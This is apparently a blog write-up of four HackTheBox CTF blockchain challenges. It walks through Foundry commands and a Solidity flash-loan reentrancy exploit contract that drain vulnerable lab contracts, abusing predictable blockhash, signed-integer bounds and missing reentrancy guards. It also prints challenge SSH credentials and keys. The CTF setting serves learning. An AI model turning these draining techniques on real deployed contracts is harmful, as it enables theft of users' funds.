

The [HackTheBox Cyber Apocalypse 2024 CTF](https://www.hackthebox.com/events/cyber-apocalypse-2024) was live from 9th to 13th March 2024, and included 4 challenges in the Blockchain category. 3 of the challenges were rated easy, and 1 was rated hard. This post is my write-up for these challenges.

# Intro to Blockchain challenges on HTB

For each challenge, you are provided with an IP address and 2 ports. On one port, we have the RPC server running an implementation of the ethereum protocol, and on the other port, we have a basic service that will tell us the contract address of the target contract and can tell us whether the challenge has been solved or not. This second service is also the one that will provide us the flag, once we have solved the challenge.

Each challenge comes with a `Setup.sol` file which sets up the challenge, including any contracts required, and has an `isSolved` function that defines the conditions required for solving the challenge.
To solve ethereum based blockchain challenges, I use the [Foundry development toolchain](https://book.getfoundry.sh/), which comes with some awesome tools:
 - `cast` for performing ethereum RPC calls. Use `cast call` to call a function on a smart contract without creating a transaction. Use `cast send` to perform a transaction on a smart contract. See [cast documentation here](https://book.getfoundry.sh/reference/cast/cast).
 - `forge` for building and deploying smart contracts. Use `forge create` to deploy a new contract on the blockchain (requires RPC URL and PRIV KEY as parameters). Use `forge script` and `forge test` for scripts and tests respectively. These commands take in a PRIV KEY parameter which corresponds to the user who will be paying the gas required to run these executions, and an RPC URL parameter which references the blockchain we are communicating with.
 - `chisel` for an interactive solidity shell, that helps quickly test the behavior of Solidity snippets on a local network
 - `anvil` for setting up your own local testnet node for deploying and testing smart contracts. Alternatively, you can test using the Sepolia test network (i.e. [integrate sepolia with your metamask local ETH account](https://moralis.io/how-to-add-the-sepolia-network-to-metamask-full-guide), and use a [faucet like this one](https://www.alchemy.com/faucets/ethereum-sepolia) to get free test ETH every day).


# Challenge 1: Russian Roulette

This challenge is a basic warm-up that only requires calling a single function multiple times to win. We are provided with two ports on the same server e.g. ports 43886 and 58931 on server `94.237.63.128`. To test the RPC server is responding appropriately, we can use the following `cast` command to fetch the timestamp of the genesis block:

```bash
$ cast age 1 --rpc-url http://94.237.63.128:58931
Thu Mar 14 07:26:46 2024
```

Additionally, we can use `nc` to interact with the other port to get information about the target contract and our user's private key:

```bash
$ nc 94.237.63.128 43886
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0x5be08fea40d9d70f39d8daba50f6a0e470aa6701665cedce9a6c3f8457e5ed14
Address         :  0x541b91DE20580B182b9A662f4eF8c8534dcfa4D0
Target contract :  0xC665cd467185eA510a6D4499Bc2aB16C58E6A6ac
Setup contract  :  0x56c3aeaDd122774B1BB0aA70edfE3012973FF131
```

The `Setup.sol` contract has the following `isSolved` function:

```javascript
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
```

This means we are required to completely drain the target contract to solve this challenge. The target contract only has one function which looks like this:

```javascript
    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
```


I.e. when the hash of the previous block has a remainder of 7 when divided by 10, this contract will self-destruct and send all its funds to the initiator of the call.

To exploit this contract, we can use a `cast` command like this, and call it many times (it took me 9 tries) to eventually cause the selfdestruct to execute:

```bash
$ cast send --rpc-url http://94.237.63.128:58931 --private-key 0x5be08fea40d9d70f39d8daba50f6a0e470aa6701665cedce9a6c3f8457e5ed14 0xC665cd467185eA510a6D4499Bc2aB16C58E6A6ac "pullTrigger()"
```

As you can see, the `cast send` command was used to send a transaction which executed the `pullTrigger()` function on the target contract address. After running this a bunch of times, we can use the utility service on the other port to get the flag (see action 3 above).

# Challenge 2: Lucky Faucet

In this challenge, the `Setup.sol` function provides the following `isSolved` function:

```javascript
    function isSolved() public view returns (bool) {
        return address(TARGET).balance <= INITIAL_BALANCE - 10 ether;
    }
```


I.e. we need to reduce the target contract's balance by at least 10 ether to solve the challenge. The initial balance is 500 ETH. The challenge contract looks like this:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

contract LuckyFaucet {
    int64 public upperBound;
    int64 public lowerBound;

    constructor() payable {
        // start with 50M-100M wei Range until player changes it
        upperBound = 100_000_000;
        lowerBound =  50_000_000;
    }

    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :)
        // we don't have infinite money glitch.
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }

    function sendRandomETH() public returns (bool, uint64) {
        int256 randomInt = int256(blockhash(block.number - 1)); // "but it's not actually random 🤓"
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```


We see a `setBounds()` function which takes in two integers, which makes some checks and assigns the bounds variables, and a `sendRandomETH()` function which sends a random amount of eth to the caller.

If all runs smoothly, this contract is only meant to send between 50M and 100M Wei to the caller i.e. between 0.00000000005 and 0.00000000010 ETH. We need to find a way to extract 10 ETH from this contract, without brute forcing (as that would probably take too long).

The vulnerability in this contract is that the `setBounds()` function stores the bounds as `int64` as opposed to `uint64` allowing them to be negative numbers, and the `sendRandomETH()` function also doesn't check whether the `amountToSend` is bigger than the `upperBound`. If the lower bound is a large negative number, then `amountToSend` becomes a large positive number (you can play around with values in the `chisel` playground to confirm this).

To exploit this vulnerability, we can use the following cast send command to update the lower bound to -5 ETH as follows:

```bash
$ cast send --rpc-url http://<IP_ADDR>:<RPC_PORT> --private-key <PRIV_KEY> <TARGET_CONTRACT> "setBounds(int64,int64)" -- -5000000000000000000 100000000
```

This is how we can pass in parameters to contract functions when we call them. We can also use `cast call` to verify the state variable `lowerBound` was updated correctly like this:

```bash
$ cast call --rpc-url http://<IP_ADDR>:<RPC_PORT> --private-key <PRIV_KEY> <TARGET_CONTRACT> "lowerBound()(int64)"
-5000000000000000000
```


Note that `lowerBound()` is a function that returns the `lowerBound` state variable in `int64` format.

Next, we call `sendRandomETH()` as follows to send us a random amount of eth between 0 and `max(int64)` Wei (or 9.22 ETH). We need to call this a couple of times to transfer more than 10 ETH:

```bash
$ cast send --rpc-url http://<IP_ADDR>:<RPC_PORT> --private-key <PRIV_KEY> <TARGET_CONTRACT> "sendRandomETH()"

$ cast send --rpc-url http://<IP_ADDR>:<RPC_PORT> --private-key <PRIV_KEY> <TARGET_CONTRACT> "sendRandomETH()"

$ cast balance --rpc-url http://<IP_ADDR>:<RPC_PORT> <TARGET_CONTRACT>
479502396641477447848
```


Once the balance of the contract is less than 490 ETH (i.e. it starts with less than 490), we've reached our goal, and can fetch the flag from the admin port!

# Challenge 3: Recovery

This challenge is a little different, with an SSH server also provided to us. The challenge text is as follows:

```
We are The Profits. During a hacking battle our infrastructure was compromised as were the private keys to our Bitcoin wallet that we kept.

We managed to track the hacker and were able to get some SSH credentials into one of his personal cloud instances, can you try to recover my Bitcoins?

Username: satoshi
Password: L4mb0Pr0j3ct

NOTE: Network is regtest, check connection info in the handler first.
```

We can SSH to the server with the following command:
```bash
$ ssh -p <SSH_PORT> satoshi@<IP_ADDR>
```


Once logged in as satoshi, we find a seed phrase in the user's home directory:

```bash
satoshi@ng-team-21362-blockchainrecoveryca2024-l0r53-77749b7cf9-jjjlz ➜  ~ cat wallet/electrum-wallet-seed.txt        
another friend embrace cinnamon move midnight slice neutral lend music ladder exact
```

As the filename mentions electrum wallet, we download this wallet and set it up to connect to the provided RPC port and network name:

```bash
$ electrum --regtest --oneserver -s <IP_ADDR>:<RPC_PORT>:t
```

Within the electrum wallet, we can load a local account by passing in the wallet seed, and get access to the private key of the attacker. We can then transfer the attacker's holdings out and complete the challenge:



As usual, once we have solved the challenge, we get the flag from the admin port.


# Challenge 4: Ledger Heist

This was the only challenge that was rated hard, and involves many more files. As background, I want to explain the concept of a flash loan within smart contracts, as that is the basis of how this challenge works.

A flash loan is a type of uncollateralized loan where borrowers can gain access to funds without putting down any collateral. Usually, when implemented in Solidity, these contracts require that the loan amount (+ a fee) is returned to the Loan contract within the same transaction, so the Loan contract doesn't lose any of the depositors' funds. If the loan amount is not paid back by the borrower, the transaction is automatically reverted, keeping the funds safe.

In the challenge, we are provided with 7 solidity files, and the usual 2 ports (challenge admin and RPC). We start with the `Setup.sol` contract to see what conditions are required to solve the challenge. The Setup contract sets up a Token contract and LoanPool contract, and provides the following `isSolved()` function:

```javascript
    function isSolved() public view returns (bool) {
        return (TARGET.totalSupply() == 10 ether && TOKEN.balanceOf(address(TARGET)) < 10 ether);
    }
```


I.e. we need to keep the total supply of the target LoanPool at 10 ether, while reducing the token balance of the LoanPool. The other contracts don't seem too relevant right now, so let's try to understand what the LoanPool contract is doing and how it interacts with the Token contract. `LoanPool.sol` provides many functions for dealing with flash loans and providing funds to the LoanPool. The funds are in the form of `Token`s which are defined in `Token.sol`. The following functions are provided within `LoanPool.sol`:

 - `deposit()` for depositing `Token`s into the LoanPool
 - `withdraw()` for withdrawing `Token`s from the LoanPool, including any fees you have collected by loaning your funds. Your balance is held in a `userRecords` mapping.
 - `flashLoan()` which takes in a borrower address, token address, amount, and calldata. This function computes the fee based on the amount requested, transfers `Token`s to the borrower, and then calls the borrower's `onFlashLoan` callback to allow them to return the money. Once this callback completes, it will check that the LoanPool's token balance is not less than the original LoanPool balance + the calculated fee. If it is less, then the transaction is reverted.
 - `_computeFee()` for calculating the fee based on a loan amount requested. The fee is 0.05% of the amount.

The important thing to catch is that there is no Re-entrancy protection anywhere in the `LoanPool` contract! No re-entrancy protection means that we can deposit money into the `LoanPool`, pretending to be a depositor, with the funds that we have just borrowed from the `LoanPool`. This will fraudulently update the `userRecords` in the `LoanPool` saying that we have deposited funds, which we can withdraw in the future without requiring another loan!
The exploitation contract looks like this:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {IERC3156FlashBorrower} from "./Interfaces.sol";
import {Token} from "./Token.sol";
import {LoanPool} from "./LoanPool.sol";

contract Solution is IERC3156FlashBorrower {
    LoanPool pool = LoanPool(address(<TARGET_ADDR>));
    Token token = Token(address(<TOKEN_ADDR>));

    function exploit() public {
        // transfer tokens to this contract so that we can deposit fee on top
        token.transferFrom(address(msg.sender), address(this), 1);
        // borrow 100 tokens, so we now have 100 extra tokens. onFlashLoan is called as callback function.
        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), 100, "");
        // withdraw 101 tokens (that we now own)
        pool.withdraw(101);
    }

    function onFlashLoan(address, address, uint256, uint256, bytes calldata) external override returns (bytes32) {
        // allow LoanPool to transfer ownership of 101 tokens
        token.approve(address(pool), 101);
        // no reentrancy protection, so we can deposit what we just loaned (+ extra) and have it's ownership transferred to us.
        pool.deposit(101);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
````

The flow of the solution is as follows:
1. The `exploit()` function starts with a call to `token.transferFrom()` to transfer 1 `Token` from our user's balance into the Solution contract's Token balance. This will be required to pay the fee on top of our loan.
1. Next, we call `pool.flashLoan()` with the Solution contract as the borrower, and request to borrow 100 `Token`s. The fee on this will be 0.05% i.e. 0.05 `Token`s.
1. The LoanPool will transfer 100 `Token`s to our Solution contract, giving it a total balance of 101 `Token`s.
1. During the `flashLoan()` function, our callback handler `onFlashLoan()` will be called. Here, we will `approve()` the pool to transfer ownership of 101 `Token`s from the Solution contract to the Pool contract.
1. Next, we call `pool.deposit(101)` to transfer ownership of 101 `Token`s to the pool, and increase the balance of the pool, making it look like we have paid back our loan, with the fee.
1. Our `onFlashLoan()` function returns the keccak hash required by the `flashLoan()` function to continue.
1. The checks in the `flashLoan()` function pass, as we have returned the deposit (with extra).
1. Finally, back in the `exploit()` function, we can call `pool.withdraw(101)` to withdraw funds from the LoanPool. As the `deposit` and `withdraw` functions were called symmetrically, the `totalSupply` of the `LoanPool` stays the same, while the balance reduces as we tricked the `LoanPool` into thinking we repaid it with its own funds.

Here are the commands I used to set up the vulnerable contracts on the Sepolia testnet, and exploit them with the Foundry framework:

```bash
$ forge create Setup --private-key $PRIV_KEY --constructor-args <MY_USER_ADDRESS>
$ cast call <SETUP_CONTRACT_ADDRESS> "isSolved()(bool)" --private-key $PRIV_KEY
false

$ forge create Solution --private-key $PRIV_KEY
$ cast send <TOKEN_CONTRACT_ADDR> "approve(address,uint256)" --private-key $PRIV_KEY -- <SOLUTION_CONTRACT_ADDR> 10000000000000000000
$ cast send <SOLUTION_CONTRACT_ADDR> "exploit()" --private-key $PRIV_KEY

$ cast call <SETUP_CONTRACT_ADDRESS> "isSolved()(bool)" --private-key $PRIV_KEY
true
```

Note the requirement to `approve()` my Solution contract to be able to transfer tokens on behalf of my user. This needs to be done BEFORE the Solution contract is called.

Thank you to the crew at HTB for helping me learn, and for a successful CTF!